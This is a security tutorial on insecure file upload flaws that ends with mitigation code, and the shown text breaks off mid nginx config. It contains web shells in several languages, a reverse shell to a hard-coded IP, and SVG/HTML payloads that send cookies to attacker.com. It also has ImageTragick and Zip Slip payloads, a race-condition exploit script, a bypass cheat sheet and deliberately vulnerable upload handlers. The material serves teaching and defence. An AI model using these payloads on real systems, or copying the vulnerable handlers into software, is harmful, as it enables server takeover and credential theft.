


## What are File Upload Vulnerabilities?

**Insecure File Upload** is a web security vulnerability that occurs when an application allows users to upload files without properly validating, sanitizing, or restricting them. Attackers can exploit this to upload malicious files that, when processed or accessed by the server, lead to **Remote Code Execution (RCE)**, **Cross-Site Scripting (XSS)**, **Denial of Service (DoS)**, or **complete system compromise**.

In a typical file upload attack, the attacker might:

- Upload a **web shell** to execute arbitrary commands on the server
- Upload **malicious scripts** (PHP, ASP, JSP, Python) disguised as images or documents
- Trigger **XSS** via uploaded SVG, HTML, or PDF files
- Perform **path traversal** to overwrite critical system files
- Cause **DoS** via zip bombs, oversized files, or resource-intensive processing
- Chain with **Local File Inclusion (LFI)** or **Server-Side Request Forgery (SSRF)**

> While not explicitly listed as a standalone item in the [OWASP Top 10 (2021)](https://owasp.org/Top10/), insecure file upload consistently ranks among the **highest-impact vulnerabilities** in bug bounty programs and enterprise penetration tests due to its direct path to RCE.
{: .prompt-info }

---

## Simple Analogy

Imagine a secure office building with a mailroom. Employees can drop off packages, but the receptionist **never opens or scans them** before placing them directly on the executive's desk. A malicious actor could slip a listening device or a timed explosive into a seemingly harmless package. That is exactly what insecure file upload does — it trusts user-supplied files without verifying their contents or intent.

---

## How Does File Upload Exploitation Work?

### Visual Attack Flow



### The Attack Flow — Step by Step

| Step | Action |
|------|--------|
| 1 | Application provides an upload form or API endpoint |
| 2 | Attacker crafts a malicious file (web shell, script, archive) |
| 3 | Attacker bypasses client/server-side validation (extension, MIME, size) |
| 4 | Server saves the file to a publicly accessible or executable directory |
| 5 | Attacker accesses the file URL, triggering execution or rendering |
| 6 | Attacker gains RCE, XSS, or system access |

### Architecture Diagram

```mermaid
graph LR
    A[Attacker] -->|Malicious File| B[Vulnerable Upload Endpoint]
    B -->|Saves to Webroot| C[/uploads/shell.php]
    C -->|HTTP Request| D[Web Server / PHP-FPM]
    D -->|Executes Code| E[OS Shell / Database]
    E -->|Reverse Shell / Data| A

    style A fill:#e74c3c,stroke:#c0392b,color:#fff
    style B fill:#f39c12,stroke:#e67e22,color:#fff
    style C fill:#9b59b6,stroke:#8e44ad,color:#fff
    style D fill:#3498db,stroke:#2980b9,color:#fff
    style E fill:#2ecc71,stroke:#27ae60,color:#fff
```

---

## Types of File Upload Vulnerabilities

### 1. Unrestricted File Upload

The application performs **no validation** on the uploaded file. Attackers can upload any extension, MIME type, or content.

**Example Request:**

```http
POST /api/upload HTTP/1.1
Host: vulnerable-app.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

The server saves `shell.php` in a web-accessible directory. Visiting `https://vulnerable-app.com/uploads/shell.php?cmd=id` executes OS commands.

---

### 2. Extension-Based Validation Bypass

The application checks the file extension but uses a **blocklist** or weak parsing logic.

**Common Bypasses:**
- Double extensions: `shell.php.jpg`, `shell.asp;.jpg`
- Case sensitivity: `shell.PHP`, `shell.Aspx`
- Null bytes (older systems): `shell.php%00.jpg`
- Alternative extensions: `.phtml`, `.php5`, `.phar`, `.cgi`

---

### 3. MIME Type / Content-Type Bypass

The server validates `Content-Type` headers but does not verify actual file content.

**Example:**

```http
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>
```

The server sees `image/jpeg` and allows the upload, ignoring the actual PHP code inside.

---

### 4. Magic Bytes / File Signature Bypass

The server reads the first few bytes (file signature) to verify file type but does not check the rest of the file.

**Example — Injecting PHP into a JPEG:**

```bash
# Create a valid JPEG header + PHP payload
echo -ne '\xFF\xD8\xFF\xE0' > image.php
echo '<?php system($_GET["cmd"]); ?>' >> image.php
```

Upload `image.php`. The server sees `FF D8 FF E0` (JPEG magic bytes) and allows it. Accessing the file executes PHP.

---

### 5. Archive-Based Attacks (Zip Slip / Zip Bomb)

Uploading `.zip`, `.tar`, `.gz` files that extract to arbitrary paths or cause resource exhaustion.

- **Zip Slip:** `../../../etc/passwd` inside archive overwrites system files
- **Zip Bomb:** Highly compressed file expands to terabytes, causing DoS

---

### 6. Client-Side Validation Only

The application uses JavaScript to restrict uploads, but the server performs no checks.

```html
<input type="file" accept=".jpg,.png" id="upload">
<script>
  // Easily bypassed by disabling JS or intercepting with Burp Suite
</script>
```

---

## Where to Find File Upload Vulnerabilities

File upload flaws hide in many application features. Here are the most common places to look:

| Feature | Example Parameter | Risk Level |
|---------|------------------|------------|
| Profile Picture / Avatar | `avatar=`, `profile_pic=` | 🔴 High |
| Document Import | `document=`, `csv_file=` | 🔴 High |
| Media Library / CMS | `media[]`, `attachment=` | 🔴 High |
| Chat / File Sharing | `file=`, `attachment=` | 🟡 Medium |
| API Endpoints | `POST /api/upload`, `multipart/form-data` | 🔴 High |
| Bulk Import Tools | `import_file=`, `backup.zip=` | 🔴 High |
| Email Attachments | `attachment[]`, `file_data=` | 🟡 Medium |
| Image Processing | `resize=`, `convert=` (ImageMagick) | 🔴 High |

---

## Common File Upload Attack Targets & Payloads

### Web Shells by Language

| Language | Extension | Payload Example |
|----------|-----------|-----------------|
| **PHP** | `.php`, `.phtml`, `.php5` | `<?php system($_GET['c']); ?>` |
| **ASP.NET** | `.aspx`, `.ashx` | `<%@ Page Language="C#" %><% Response.Write(new System.IO.StreamReader(Request.QueryString["f"]).ReadToEnd()); %>` |
| **JSP** | `.jsp` | `<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>` |
| **Python** | `.py`, `.cgi` | `#!/usr/bin/env python\nimport os; os.system(os.environ.get("CMD"))` |
| **Node.js** | `.js` | `require('child_process').exec(req.query.cmd, (e, o) => res.send(o))` |

### Non-Executable Payloads

| Type | Extension | Impact |
|------|-----------|--------|
| **SVG XSS** | `.svg` | `<svg onload="alert(document.cookie)">` |
| **HTML Injection** | `.html` | `<script>fetch('https://attacker.com/?c='+document.cookie)</script>` |
| **PDF SSRF** | `.pdf` | Embedded external links or JavaScript |
| **EXE / Binary** | `.exe`, `.sh` | Downloaded and executed by admin or users |
| **Config Files** | `.htaccess`, `.user.ini` | Change server behavior to execute `.jpg` as PHP |

> **`.htaccess` uploads are extremely dangerous.** A single misconfigured Apache upload directory can turn every `.jpg` into executable PHP.
{: .prompt-danger }

---

## Real-World File Upload Exploitation

### Scenario 1: Basic PHP Web Shell Upload

**Step 1 — Upload the shell:**

```http
POST /upload.php HTTP/1.1
Host: vulnerable-app.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg

<?php echo shell_exec($_GET['cmd']); ?>
------WebKitFormBoundary--
```

**Step 2 — Execute commands:**

```bash
curl "https://vulnerable-app.com/uploads/shell.php?cmd=id"
# uid=33(www-data) gid=33(www-data) groups=33(www-data)

curl "https://vulnerable-app.com/uploads/shell.php?cmd=cat+/etc/passwd"
# root:x:0:0:root:/root:/bin/bash
# daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

**Step 3 — Upgrade to a reverse shell:**

```bash
# On attacker machine — start listener
nc -lvnp 4444

# Via the web shell
curl "https://vulnerable-app.com/uploads/shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.5/4444+0>%261'"
```

---

### Scenario 2: SVG XSS via Profile Picture

Many apps accept SVGs for avatars but do not sanitize their contents.

**Payload — `xss.svg`:**

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <script type="text/javascript">
    alert(document.domain);
    fetch('https://attacker.com/steal?cookie=' + document.cookie);
  </script>
  <rect width="100%" height="100%" fill="red" />
</svg>
```

**Impact:** When an admin views the profile page, the script executes in their browser, enabling session hijacking, CSRF, or credential theft.

---

### Scenario 3: Bypassing Extension Filters with `.htaccess`

If `.php` is blocked but `.jpg` and `.htaccess` uploads are allowed:

**Step 1 — Upload `.htaccess`:**

```apache
AddType application/x-httpd-php .jpg
```

**Step 2 — Upload `shell.jpg`:**

```php
<?php system($_GET['cmd']); ?>
```

**Step 3 — Access and execute:**

```bash
curl "https://vulnerable-app.com/uploads/shell.jpg?cmd=whoami"
# www-data
```

---

### Scenario 4: Bypassing Magic Bytes Validation

```bash
# Create a GIF with embedded PHP shell
echo -ne 'GIF89a' > payload.php
echo '<?php phpinfo(); system($_GET["cmd"]); ?>' >> payload.php

# Verify file header
xxd payload.php | head -2
# 00000000: 4749 4638 3961 3c3f 7068 7020 7068 7069  GIF89a<?php phpi

# Upload payload.php
# Server reads first 6 bytes, sees "GIF89a", validates as GIF, allows upload
# Accessing /uploads/payload.php executes PHP
```

---

### Scenario 5: Zip Slip — Path Traversal via Archive

**Malicious ZIP structure:**

```text
archive.zip
├── ../../../var/www/html/shell.php
└── safe_image.jpg
```

**Create the malicious archive:**

```bash
# Method 1: Using zip with traversal
mkdir exploit
echo '<?php system($_GET["c"]); ?>' > exploit/shell.php
cd exploit
zip -r ../archive.zip ../../../var/www/html/shell.php

# Method 2: Using Python
python3 -c "
import zipfile
with zipfile.ZipFile('exploit.zip', 'w') as zf:
    zf.write('shell.php', '../../../var/www/html/shell.php')
"
```

**Automate Zip Slip testing:**

```python
#!/usr/bin/env python3
"""
Zip Slip PoC Generator
Use only on authorized targets.
"""

import zipfile
import io

def create_zipslip(target_path, payload_content):
    """Create a malicious zip that extracts to target_path."""
    buffer = io.BytesIO()
    with zipfile.ZipFile(buffer, 'w', zipfile.ZIP_DEFLATED) as zf:
        zf.writestr(target_path, payload_content)
    buffer.seek(0)
    return buffer.read()

# Example usage
payload = "<?php system($_GET['c']); ?>"
target = "../../../var/www/html/pwned.php"
zip_data = create_zipslip(target, payload)

with open("exploit.zip", "wb") as f:
    f.write(zip_data)

print(f"[+] Created exploit.zip targeting: {target}")
print(f"[+] Upload and access: /pwned.php?c=id")
```

---

### Scenario 6: ImageMagick RCE — CVE-2016-3714 (ImageTragick)

Upload a malicious image that triggers command execution during server-side processing.

**Payload — `exploit.mvg`:**

```text
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|bash -i >& /dev/tcp/10.10.14.5/4444 0>&1")'
pop graphic-context
```

**Alternative payload formats:**

```text
# exploit.svg
<image authenticate='ff" `echo $(id)> /tmp/pwned`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
    <image xlink:href="msl:exploit.svg" height="100" width="100"/>
  </svg>
</image>
```

**Test if the server is vulnerable:**

```bash
# Check ImageMagick version
convert --version

# Test via PoC
convert exploit.mvg output.png

# If vulnerable, you will see command output
cat /tmp/pwned
# uid=33(www-data) gid=33(www-data)
```

---

### Scenario 7: Race Condition File Upload

Upload a file, then immediately request it before the server renames or deletes it.

```python
#!/usr/bin/env python3
"""
Race Condition File Upload PoC
Use only on authorized targets.
"""

import requests
import threading
import time

TARGET_UPLOAD = "https://vulnerable-app.com/upload"
TARGET_ACCESS = "https://vulnerable-app.com/uploads/shell.php"
SHELL_PAYLOAD = "<?php system($_GET['c']); ?>"
FOUND = threading.Event()

def upload_shell():
    """Continuously upload the shell."""
    while not FOUND.is_set():
        try:
            requests.post(
                TARGET_UPLOAD,
                files={"file": ("shell.php", SHELL_PAYLOAD, "image/jpeg")},
                timeout=5
            )
        except Exception:
            pass

def access_shell():
    """Continuously try to access the shell before it gets renamed."""
    while not FOUND.is_set():
        try:
            r = requests.get(f"{TARGET_ACCESS}?c=id", timeout=2)
            if r.status_code == 200 and "uid=" in r.text:
                print(f"[+] Race condition won!")
                print(f"[+] Output: {r.text.strip()}")
                FOUND.set()
        except Exception:
            pass
        time.sleep(0.01)

print("[*] Starting race condition attack...")
threads = []
for _ in range(5):
    threads.append(threading.Thread(target=upload_shell))
    threads.append(threading.Thread(target=access_shell))

for t in threads:
    t.start()
for t in threads:
    t.join()
```

---

## File Upload Bypass Techniques

When basic uploads are blocked by WAFs or input validation, attackers use these techniques:

### 1. Extension Manipulation

```text
# Double extensions
shell.php.jpg
shell.php.png
shell.php.gif

# Semicolon tricks (IIS)
shell.asp;.jpg
shell.php;.png

# Null byte injection (older PHP)
shell.php%00.jpg
shell.php\x00.jpg

# Case variation
shell.PHP
shell.pHp
shell.PhP
shell.Php

# Alternative PHP extensions
shell.php5
shell.php4
shell.php3
shell.phtml
shell.phar
shell.shtml

# Alternative ASP extensions
shell.asp
shell.aspx
shell.asa
shell.cer
shell.cdx
```

### 2. MIME Type Spoofing

```http
Content-Type: image/jpeg
Content-Type: image/png
Content-Type: image/gif
Content-Type: application/octet-stream
Content-Type: text/plain
Content-Type: multipart/form-data
```

### 3. Magic Byte Injection

```bash
# Prepend PNG magic bytes to PHP shell
printf '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A' > shell.php
echo '<?php system($_GET["c"]); ?>' >> shell.php

# Prepend GIF magic bytes
printf 'GIF89a' > shell.php
echo '<?php system($_GET["c"]); ?>' >> shell.php

# Prepend JPEG magic bytes
printf '\xFF\xD8\xFF\xE0' > shell.php
echo '<?php system($_GET["c"]); ?>' >> shell.php

# Prepend PDF magic bytes
printf '%%PDF-' > shell.php
echo '<?php system($_GET["c"]); ?>' >> shell.php

# Verify magic bytes were added
xxd shell.php | head -3
```

### 4. Double Encoding & Null Bytes

```text
shell.php%00.jpg
shell.php%2500.jpg
shell.php%252500.jpg
shell.php%0a.jpg
shell.php%0d.jpg
shell.php%09.jpg
```

### 5. Apache `.htaccess` Override

```apache
# Make the server execute .jpg files as PHP
AddType application/x-httpd-php .jpg

# Alternative directive
AddHandler application/x-httpd-php .jpg

# Use FilesMatch to target specific files
<FilesMatch "\.jpg$">
  SetHandler application/x-httpd-php
</FilesMatch>

# php7 handler
AddHandler application/x-httpd-php7 .png
```

### 6. PHP `.user.ini` Override

```ini
; Upload .user.ini to the uploads directory
; Then upload shell.jpg — it will be auto-prepended to every PHP request in that dir
auto_prepend_file = shell.jpg
```

### 7. Nginx Misconfiguration Bypass

```text
# If Nginx has cgi.fix_pathinfo=1 (common misconfiguration)
/uploads/image.jpg/.php
/uploads/image.jpg/shell.php

# Null byte (older versions)
/uploads/image.jpg%00.php

# Trailing slash
/uploads/shell.php/
```

### 8. Client-Side Bypass

```bash
# Method 1: Use curl directly, bypassing browser JS
curl -X POST "https://app.com/upload" \
  -F "file=@shell.php;type=image/jpeg" \
  -H "Cookie: session=abc123"

# Method 2: Change file input via browser console
# document.getElementById('upload').removeAttribute('accept')

# Method 3: Intercept with Burp and change filename
# Original:  filename="image.jpg"
# Modified:  filename="shell.php"
```

### 9. Polyglot Files (Valid Image + Valid PHP)

```bash
# Create a real valid JPEG that also contains PHP
# The file passes image validation AND executes as PHP

# Using exiftool to embed PHP in JPEG metadata
exiftool -Comment='<?php system($_GET["c"]); ?>' valid_image.jpg
cp valid_image.jpg polyglot.php

# Upload polyglot.php — it passes image checks and executes PHP
curl "https://app.com/uploads/polyglot.php?c=id"
```

### Complete Bypass Cheat Sheet

```text
# Extension bypasses
shell.php
shell.php.jpg
shell.php.png
shell.php;.jpg
shell.php%00.jpg
shell.PHP
shell.pHp
shell.php5
shell.php4
shell.php3
shell.phtml
shell.phar
shell.shtml
shell.cgi

# Config file uploads
.htaccess
.user.ini
web.config

# MIME type spoofing
image/jpeg
image/png
image/gif
image/webp
application/octet-stream

# Magic bytes (hex)
JPEG:  FF D8 FF E0
PNG:   89 50 4E 47 0D 0A 1A 0A
GIF:   47 49 46 38 39 61
PDF:   25 50 44 46 2D

# SVG XSS payloads
<svg onload="alert(1)">
<svg><script>alert(document.domain)</script></svg>
<svg xmlns="http://www.w3.org/2000/svg"><script>alert(1)</script></svg>
```

---

## Vulnerable Code Examples

### Python (Flask) — Vulnerable

```python
from flask import Flask, request, send_from_directory
import os

app = Flask(__name__)
UPLOAD_FOLDER = 'uploads/'
os.makedirs(UPLOAD_FOLDER, exist_ok=True)

@app.route('/upload', methods=['POST'])
def upload_file():
    """
    VULNERABLE: No extension, MIME, or content validation.
    Uses the original user-supplied filename directly.
    """
    if 'file' not in request.files:
        return "No file part", 400

    file = request.files['file']
    if file.filename == '':
        return "No selected file", 400

    # Directly saves user-supplied filename — VULNERABLE!
    # Attacker uploads shell.php and it gets saved as shell.php
    file.save(os.path.join(UPLOAD_FOLDER, file.filename))
    return f"File uploaded: {file.filename}", 200

@app.route('/uploads/<filename>')
def uploaded_file(filename):
    # Serves files from the upload directory — VULNERABLE!
    return send_from_directory(UPLOAD_FOLDER, filename)

@app.route('/api/profile', methods=['POST'])
def update_profile():
    """
    VULNERABLE: No content-type or extension validation on avatar.
    """
    avatar = request.files.get('avatar')
    if avatar:
        # Only checks Content-Type header — easily spoofed!
        if avatar.content_type in ['image/jpeg', 'image/png']:
            # Still saves with original name — VULNERABLE!
            avatar.save(os.path.join('avatars/', avatar.filename))
            return {"message": "Avatar updated"}, 200
    return {"error": "No avatar"}, 400

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

---

### Node.js (Express + Multer) — Vulnerable

```javascript
const express = require('express');
const multer = require('multer');
const path = require('path');
const app = express();

app.use(express.json());

// VULNERABLE: No file type filtering whatsoever
const storage = multer.diskStorage({
  destination: (req, file, cb) => {
    cb(null, 'uploads/');
  },
  // Uses original filename — VULNERABLE!
  filename: (req, file, cb) => {
    cb(null, file.originalname);
  }
});

const upload = multer({ storage });

// VULNERABLE: No validation on file type or content
app.post('/upload', upload.single('file'), (req, res) => {
  res.json({
    message: 'File uploaded',
    path: `/uploads/${req.file.originalname}`
  });
});

// VULNERABLE: Serves uploads as static files — executes scripts!
app.use('/uploads', express.static('uploads'));

// VULNERABLE: Only checks Content-Type header
app.post('/api/avatar', upload.single('avatar'), (req, res) => {
  const allowed = ['image/jpeg', 'image/png', 'image/gif'];
  if (!allowed.includes(req.file.mimetype)) {
    return res.status(403).json({ error: 'Invalid file type' });
  }
  // mimetype is from the request header — easily spoofed!
  res.json({ message: 'Avatar updated', path: `/uploads/${req.file.originalname}` });
});

app.listen(3000, () => console.log('Server running on port 3000'));
```

---

### Java (Spring Boot) — Vulnerable

```java
package com.example.upload;

import org.springframework.web.bind.annotation.*;
import org.springframework.web.multipart.MultipartFile;
import java.io.*;
import java.nio.file.*;

@RestController
@RequestMapping("/api")
public class UploadController {

    private static final String UPLOAD_DIR = "uploads/";

    /**
     * VULNERABLE: No validation on file extension, MIME type, or content.
     * Directly uses original filename from user input.
     */
    @PostMapping("/upload")
    public String uploadFile(@RequestParam("file") MultipartFile file) throws IOException {
        if (file.isEmpty()) {
            return "File is empty";
        }

        // getOriginalFilename() returns attacker-controlled value — VULNERABLE!
        String fileName = file.getOriginalFilename();
        Path path = Paths.get(UPLOAD_DIR + fileName);

        Files.createDirectories(path.getParent());
        // Saves shell.php directly to disk — VULNERABLE!
        file.transferTo(path);

        return "Uploaded: " + fileName;
    }

    /**
     * VULNERABLE: Weak content-type check, original filename kept.
     */
    @PostMapping("/avatar")
    public String uploadAvatar(@RequestParam("avatar") MultipartFile file) throws IOException {
        String contentType = file.getContentType();

        // Only checks Content-Type header — VULNERABLE! (easily spoofed)
        if (contentType == null || !contentType.startsWith("image/")) {
            return "Only images are allowed";
        }

        // Still uses original filename — VULNERABLE!
        String fileName = file.getOriginalFilename();
        file.transferTo(Paths.get(UPLOAD_DIR + fileName));
        return "Avatar uploaded: " + fileName;
    }
}
```

---

### PHP — Vulnerable

```php
<?php
/**
 * VULNERABLE: Weak extension check, no MIME or magic byte validation.
 * Relies on blocklist which is trivially bypassed.
 */

if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_FILES['file'])) {
    $targetDir  = "uploads/";
    $fileName   = basename($_FILES["file"]["name"]);  // User-controlled — VULNERABLE!
    $targetFile = $targetDir . $fileName;

    // VULNERABLE: Blocklist approach — misses phtml, php5, phar, etc.
    $blockedExtensions = ['php', 'asp', 'aspx', 'jsp'];
    $ext = strtolower(pathinfo($targetFile, PATHINFO_EXTENSION));

    if (in_array($ext, $blockedExtensions)) {
        echo json_encode(["error" => "File type not allowed"]);
        exit;
    }

    // VULNERABLE: No MIME validation, no magic byte check, no renaming
    if (move_uploaded_file($_FILES["file"]["tmp_name"], $targetFile)) {
        echo json_encode(["success" => true, "path" => $targetFile]);
    } else {
        echo json_encode(["error" => "Upload failed"]);
    }
}

// VULNERABLE: Using file_get_contents to check type (bypassable)
function weakTypeCheck($tmpFile) {
    $imageInfo = getimagesize($tmpFile);
    // getimagesize can be fooled with magic bytes
    return $imageInfo !== false;
}
?>
```

---

### Go — Vulnerable

```go
package main

import (
	"fmt"
	"io"
	"net/http"
	"os"
	"path/filepath"
)

func uploadHandler(w http.ResponseWriter, r *http.Request) {
	if r.Method != http.MethodPost {
		http.Error(w, "Method not allowed", http.StatusMethodNotAllowed)
		return
	}

	// 10 MB max
	r.ParseMultipartForm(10 << 20)
	file, header, err := r.FormFile("file")
	if err != nil {
		http.Error(w, "Error retrieving file", http.StatusBadRequest)
		return
	}
	defer file.Close()

	// VULNERABLE: Uses original filename without any validation
	// Attacker sets filename to "shell.php" and it gets saved as-is
	dst, err := os.Create(filepath.Join("uploads", header.Filename))
	if err != nil {
		http.Error(w, "Error saving file", http.StatusInternalServerError)
		return
	}
	defer dst.Close()

	io.Copy(dst, file)

	// VULNERABLE: Returns the full path to the attacker
	fmt.Fprintf(w, `{"path": "/uploads/%s"}`, header.Filename)
}

func main() {
	// VULNERABLE: Serves uploads directory as static files
	http.Handle("/uploads/", http.StripPrefix("/uploads/", http.FileServer(http.Dir("uploads"))))
	http.HandleFunc("/upload", uploadHandler)
	fmt.Println("Server running on :8080")
	http.ListenAndServe(":8080", nil)
}
```

---

## Mitigation & Prevention

### 1. Strict Allowlist Validation — Extension + MIME + Magic Bytes

```python
import os
import uuid
import magic
from flask import Flask, request, abort, jsonify

app = Flask(__name__)

UPLOAD_FOLDER = '/var/app/uploads/secure/'
ALLOWED_EXTENSIONS = {'png', 'jpg', 'jpeg', 'gif', 'pdf'}
ALLOWED_MIME_TYPES = {
    'image/png',
    'image/jpeg',
    'image/gif',
    'application/pdf'
}
MAGIC_SIGNATURES = {
    'image/png':      b'\x89PNG\r\n\x1a\n',
    'image/jpeg':     b'\xff\xd8\xff',
    'image/gif':      b'GIF89a',
    'application/pdf': b'%PDF-',
}

def allowed_extension(filename):
    return (
        '.' in filename and
        filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS
    )

def validate_mime_type(file_data, claimed_mime):
    """Check that real file content matches claimed MIME type."""
    # Use python-magic to detect actual content type
    detected_mime = magic.from_buffer(file_data[:2048], mime=True)
    return detected_mime == claimed_mime and claimed_mime in ALLOWED_MIME_TYPES

def validate_magic_bytes(file_data, mime_type):
    """Check file signature (magic bytes) against expected value."""
    expected = MAGIC_SIGNATURES.get(mime_type)
    if expected is None:
        return False
    return file_data[:len(expected)] == expected

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({"error": "No file provided"}), 400

    file = request.files['file']
    if file.filename == '':
        return jsonify({"error": "No filename"}), 400

    # 1. Validate extension against allowlist
    if not allowed_extension(file.filename):
        return jsonify({"error": "File extension not allowed"}), 403

    # 2. Read file data for content inspection
    file_data = file.read(5 * 1024 * 1024 + 1)  # Read up to 5MB+1
    if len(file_data) > 5 * 1024 * 1024:
        return jsonify({"error": "File too large (max 5MB)"}), 413
    file.seek(0)

    # 3. Validate claimed MIME type from headers
    claimed_mime = file.content_type
    if claimed_mime not in ALLOWED_MIME_TYPES:
        return jsonify({"error": "MIME type not allowed"}), 403

    # 4. Validate actual content matches MIME type (magic bytes)
    if not validate_magic_bytes(file_data, claimed_mime):
        return jsonify({"error": "File content does not match declared type"}), 403

    # 5. Double-check with python-magic library
    if not validate_mime_type(file_data, claimed_mime):
        return jsonify({"error": "File content validation failed"}), 403

    # 6. Generate a cryptographically random filename
    ext = file.filename.rsplit('.', 1)[1].lower()
    safe_name = f"{uuid.uuid4().hex}.{ext}"

    # 7. Save to non-webroot directory
    os.makedirs(UPLOAD_FOLDER, exist_ok=True)
    save_path = os.path.join(UPLOAD_FOLDER, safe_name)

    with open(save_path, 'wb') as f:
        f.write(file_data)

    # 8. Set restrictive file permissions
    os.chmod(save_path, 0o644)

    return jsonify({"message": "Upload successful", "id": safe_name}), 200
```

---

### 2. Store Files Outside Webroot + Serve via Controlled Route

```python
import os
import mimetypes
from flask import Flask, abort, send_file

app = Flask(__name__)

# Outside webroot — not directly accessible via URL
SECURE_UPLOAD_DIR = '/var/app/private_uploads/'

ALLOWED_SERVE_EXTENSIONS = {'.png', '.jpg', '.jpeg', '.gif', '.pdf'}

@app.route('/files/<file_id>')
def serve_file(file_id):
    """
    Serve uploaded files through a controlled route.
    Never expose the real filesystem path.
    """
    # Sanitize file_id to prevent path traversal
    if '..' in file_id or '/' in file_id or '\\' in file_id:
        abort(400)

    # Only allow UUID-style filenames
    import re
    if not re.match(r'^[a-f0-9]{32}\.[a-z]{2,4}$', file_id):
        abort(400)

    file_path = os.path.join(SECURE_UPLOAD_DIR, file_id)

    # Check file exists
    if not os.path.isfile(file_path):
        abort(404)

    # Validate extension before serving
    _, ext = os.path.splitext(file_id)
    if ext.lower() not in ALLOWED_SERVE_EXTENSIONS:
        abort(403)

    # Force download — prevent browser from rendering/executing
    return send_file(
        file_path,
        as_attachment=True,
        download_name=file_id
    )
```

---

### 3. Disable Script Execution in Upload Directories

**Apache — `.htaccess` in `/uploads/`:**

```apache
# Deny access to all script types
<FilesMatch "\.(php|php3|php4|php5|php7|phtml|phar|asp|aspx|jsp|cgi|sh|py|pl|rb)$">
    Order Allow,Deny
    Deny from all
</FilesMatch>

# Disable PHP engine in this directory
php_flag engine off

# Remove script handlers
RemoveHandler .php .phtml .php3 .php4 .php5 .php7 .phar
RemoveType .php .phtml .php3 .php4 .php5 .php7 .phar

# Force all files to download
<FilesMatch ".*">
    Header set Content-Disposition "attachment"
</FilesMatch>
```

**Nginx — Disable execution in upload dir:**

```nginx
server {
    listen 80;
    server_name vulnerable-app.com;

    # Upload directory — serve as static only, block scripts
    location /uploads/ {
        # Block PHP and other script execution
